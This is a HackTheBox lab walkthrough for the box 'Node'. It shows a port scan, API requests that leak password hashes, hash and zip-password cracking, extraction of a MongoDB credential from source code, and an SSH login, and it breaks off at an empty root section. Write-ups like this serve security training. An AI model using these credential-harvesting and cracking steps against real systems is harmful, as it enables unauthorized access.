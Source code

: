 ```yaml
---
layout: post
title: Hackthebox None Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-06/node-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box "Node".<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.58 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-05 21:28 EEST
Nmap scan report for 10.10.10.58
Host is up (0.040s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: /login
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.96 seconds
{% endhighlight %}


## 2. Getting User

Using Burp Suite, we can find an interesting HTTP request to "/api/users/latest" on port 3000.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-06/node-badge.png)

Then, access to the API.<br>
We can see some passwords for user "tom", "mark" and "rastating".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/latest | jq
[
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

Next, try "/api/users".<br>
We can find an admin user "myP14ceAdm1nAcc0uNT".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/ | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

We can crack the password using <a href="https://crackstation.net/">Crackstation.net</a>.<br>
The cracked password is "manchester".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-06/node-badge.png)

We can download a file "myplace.backup" base64 encoded.<br>
Try to decode with base64 command.
{% highlight shell %}
root@kali:~# cat myplace.backup | base64 --decode > myplace
root@kali:~# file myplace
myplace: Zip archive data, at least v1.0 to extract
{% endhighlight %}

Since the zip file is password protected, try to brute-force using "fcrackzip".<br>
The password is "magicword".
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:

root@kali:~# fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace
possible pw found: magicword ()
{% endhighlight %}

Then, unzip the archive.
It looks like a source code of a NodeJS web application.
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:
  inflating: var/www/myplace/package-lock.json
  inflating: var/www/myplace/node_modules/serve-static/README.md
  inflating: var/www/myplace/node_modules/serve-static/index.js

---
{% endhighlight %}

Take a look at the source code.<br>
In "/var/www/myplace/app.js", we can find a mongodb credential for user "mark".
{% highlight shell %}
root@kali:~/var/www/myplace# cat app.js | grep mongo
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
    console.log('[!] Failed to connect to mongodb');
{% endhighlight %}

We can use the credential for SSH connection.
{% highlight shell %}
root@kali:~# ssh mark@10.10.10.58
mark@10.10.10.58's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.




              .-. 
        .-'``(|||) 
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 




The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
{% endhighlight %}

However, we are still not capable of getting user.txt.<br>
We have other 2 users.
{% highlight shell %}
mark@node:/home$ ls -l
total 12
drwxr-xr-x 2 root root 4096 Aug 31  2017 frank
drwxr-xr-x 3 root root 4096 Sep  3  2017 mark
drwxr-xr-x 6 root root 4096 Sep  3  2017 tom
{% endhighlight %}

## 3. Getting Root


